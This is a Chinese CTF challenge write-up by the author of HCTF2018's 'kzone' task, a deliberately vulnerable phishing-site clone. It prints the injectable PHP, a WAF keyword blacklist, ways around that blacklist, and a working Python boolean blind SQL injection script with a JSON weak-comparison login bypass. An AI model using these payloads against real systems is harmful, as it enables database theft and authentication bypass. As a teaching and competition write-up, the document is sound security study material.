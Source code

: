 # HCTF2018_kzone

## 题目情况：

| Name | Description | Score|Solved|
| ------ | ------ | ---- | ---- |
| kzone | A script kid's phishing website | 361.29 |  34  |

## 源码：

所有源码都在上面了

### 如何启动：

```shell
git clone https://github.com/Li4n0/HCTF2018_kzone.git
cd HCTF2018_kzone/
sh start_up.sh 
```

默认端口为10000

## 出题思路以及Write Up：

大二狗第一次出题，出的不够严谨，导致了比较严重的非预期，不过看到非预期的姿势也非常有趣，赛后调查数据又看到很多师傅表示很喜欢这道题目，我就觉得这道题目还是有意义的。

那么先来说说我本身的出题思路吧！

首先，题目本身是基于我今年暑假遇到的一个QQ空间钓鱼平台的源码改造而来的，这个钓鱼平台本身的问题很多，这次题目就是利用了其中`memeber.php` 中存在的 cookie 注入点 。

来看看平台本身的注入点：

```php
$admin_user=base64_decode($_COOKIE['admin_user']);
$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
if($udata['username']==''){
	setcookie("islogin", "", time() - 604800);
	setcookie("admin_user", "", time() - 604800);
	setcookie("admin_pass", "", time() - 604800);
}
$admin_pass=sha1($udata['password'].LOGIN_KEY);
if($admin_pass==$_COOKIE["admin_pass"]){
	$islogin=1;
}else{
	setcookie("islogin", "", time() - 604800);
	setcookie("admin_user", "", time() - 604800);
	setcookie("admin_pass", "", time() - 604800);
}
```

而在原本的代码基础上，我将`admin_user` 和 `admin_pass` 的引入方式改为`json_decode` (后面会解释原因)，并且增加了一个全局 WAF，对 `$_GET` `$_POST` `$_COOKIE` 分别进行了过滤

过滤的内容如下：

`$blacklist = '/union|ascii|mid|left|greatest|least|substr|sleep|or|and|benchmark|like|regexp|if|=|-|<|>|\#|\s/i';` 

那么如何绕过这个 WAF 呢？大多数师傅都是利用了 `json` 反序列化时，会将`Unicode` 解码的特性，实现了完全绕过 WAF ，这里其实是我过滤的不够完善了。大家可以想一下，如果`\` 也被过滤掉，还有没有其他姿势呢？

其实这个 WAF 造成最大的障碍就是过滤了 `or` 导致没有办法通过 `information_schema` 库来查询表名，然而其实`MySQL`  5.7 之后的版本，在其自带的 `mysql` 库中，新增了 `innodb_table_stats ` 和 `innodb_index_stats` 这两张日志表。如果数据表的引擎是`innodb` ，则会在这两张表中记录表、键的信息 。

而从 `install.sql` 中可以看出，网站使用的正是`innodb` 引擎

```sql
CREATE TABLE IF NOT EXISTS `fish_admin` (
  `id` tinyint(3) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(20) NOT NULL,
  `password` char(32) NOT NULL,
  `name` varchar(255) DEFAULT '',
  `qq` varchar(255) DEFAULT '',
  `per` int(11) NOT NULL DEFAULT '3',
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=innodb  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;
```

因此我们使用 `mysql.innodb_table_stats` 来代替 `information_schema.tables`  即可获取表名。于是现在我们需要思考如何判断注入结果，`sleep` 和 `benchmark` 都已经被过滤了，只能考虑布尔盲注(不考虑笛卡尔积...)。

那么现在是时候来解释一下为什么我要把 `base64_decode ` 换成 `json_decode` 了，这个思路其实是来自 `微擎` 之前一个版本的漏洞：

```php
$session = json_decode(authcode($_GPC['__session']), true);
if (is_array($session)) {
	$user = user_single(array('uid'=>$session['uid']));
	if (is_array($user) && $session['hash'] == md5($user['password'] . $user['salt'])) {
		$_W['uid'] = $user['uid'];
		$_W['username'] = $user['username'];
		$user['currentvisit'] = $user['lastvisit'];
		$user['currentip'] = $user['lastip'];
		$user['lastvisit'] = $session['lastvisit'];
		$user['lastip'] = $session['lastip'];
		$_W['user'] = $user;
		$_W['isfounder'] = user_is_founder($_W['uid']);
		unset($founders);
	} else {
		isetcookie('__session', false, -100);
	}
	unset($user);
}
unset($session);

```

简单来说，就是`微擎` 将用于验证用户身份的`hash` 值，使用了 `json_encode` 进行序列化并储存在 cookie 里面。而在验证的时候，再用`json_decode` 反序列化后取出。但是需要注意的是，在将`hash` 值与数据库中存储的用户密码的`md5` 值进行比较的时候，使用的是弱比较，这就导致我们可以通过构造 `json`字符串使`hash`值为数字，利用弱类型，绕过用户身份验证，实现任意用户登录。

我在这里套用了这个漏洞：

```php
$login_data = json_decode($_COOKIE['login_data'], true);
$admin_user = $login_data['admin_user'];
$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
if ($udata['username'] == '') {
	setcookie("islogin", "", time() - 604800);
	setcookie("login_data", "", time() - 604800);
}
$admin_pass = sha1($udata['password'] . LOGIN_KEY);
if ($admin_pass == $login_data['admin_pass']) {
     $islogin = 1;
} else {
   	setcookie("islogin", "", time() - 604800);
    setcookie("login_data", "", time() - 604800);
}
```

本来的思路是让大家进行爆破，登录`admin`账户,然后通过 `$admin_user` 构造条件语句，这样就可以通过登录状态来进行布尔盲注了。

然而没想到的两点是：

1. 这恰恰引入了利用 `json` 反序列化 Unicode 绕过 WAF 的漏洞

2. 利用平台本身的逻辑问题，就可以实现布尔注入，具体位置就在上面的代码中：

   * 当查询返回的用户名为空且密码错误时，进行四次`setcookie` 操作
   * 当查询返回的用户名为不为空时，进行两次`setcookie` 操作

   利用这个差异，就已经可以实现布尔盲注了。

所以，这道题目对于我这个出题人来说，其实算是一个比较失败的产物，好在题目本身还能够让一些选手收获知识/乐趣，而且还是有一些队伍是按照我的预期思路做出的这道题目的。而经历48小时的蹂躏后，题目共有 33 只队伍提交有效答案，最终分值为 361分， 也符合我的预期。

未来的一年，我会努力学习更多姿势、积累出题经验，争取在明年的 HCTF 上，给大家带来更优质的题目。

最后，附上我的预期解`exp `:

> PS：由于我上传源码的时候，随手更改了`flag` 导致了一些小变化，下面这个`exp` 就不能直接跑出`flag` 的内容了，大家可以想一想该怎么操作2333

```python
"""
	Author:Li4n0
	Time:2018.11.7
"""

import requests

url = 'http://kzone.2018.hctf.io/admin/'
key = ''
strings = [chr(i) for i in range(32, 127)]

while True:
    for i in reversed(strings):
        if 'or' in key + i:
            continue
       #payload = "admin' and (select group_concat(table_name) from mysql.innodb_table_stats) between '%s' and '%s' and '1" % (key + i, chr(126))
        payload = "admin' and (select * from F1444g) between '%s' and '%s' and '1" % (key + i, chr(126))
       
        headers = {
            'cookie': 'islogin=1;login_data={"admin_user":"%s","admin_pass":65}' %
                      payload.replace(' ', '/**/').replace("\"", '\\"'),
        }
        #print(headers)
        r = requests.get(url, headers=headers)
        #print(r.text)
        if 'Management Index' in r.text:
            key += i
            break
        else:
            print(i)
    print(key)

```












